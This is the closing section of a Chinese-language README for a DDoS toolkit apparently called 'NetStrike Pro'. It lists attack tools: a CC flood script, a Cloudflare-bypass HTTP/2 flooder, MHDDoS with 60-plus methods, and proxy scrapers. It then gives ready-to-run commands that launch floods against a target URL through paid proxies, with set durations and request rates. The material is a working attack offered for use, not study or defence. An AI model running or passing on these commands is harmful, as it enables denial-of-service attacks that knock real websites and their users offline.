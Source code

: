 
## 🎉 总结

### ✅ 你拥有的工具

**立即可用**（`legacy/` 目录）:
1. ✅ **cc.py** - Python CC 攻击
2. ✅ **tls.js** - HTTP/2 CloudFlare 绕过
3. ✅ **cfx.js** - HTTP/1.1 快速攻击
4. ✅ **MHDDoS** - 60+ 种攻击方法
5. ✅ **代理工具** - 抓取、筛选、刷新
6. ✅ **完整文档** - 使用指南

**未来可用**（`NetStrike-Pro/` 框架）:
1. ⏳ 统一入口
2. ⏳ 自动检测
3. ⏳ 智能推荐
4. ⏳ 实时监控
5. ⏳ Web 界面

### 🚀 立即开始

```bash
# 进入工具目录
cd NetStrike-Pro/legacy

# 刷新代理
./refresh_proxy.sh

# 开始攻击（选择一个）
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180
```

---

**NetStrike Pro** - 原有工具 100% 保留 | 新框架持续优化  
🎯 **立即可用** | 💪 **功能完整** | 🚀 **持续进化**

版本 5.0.0 | © 2025


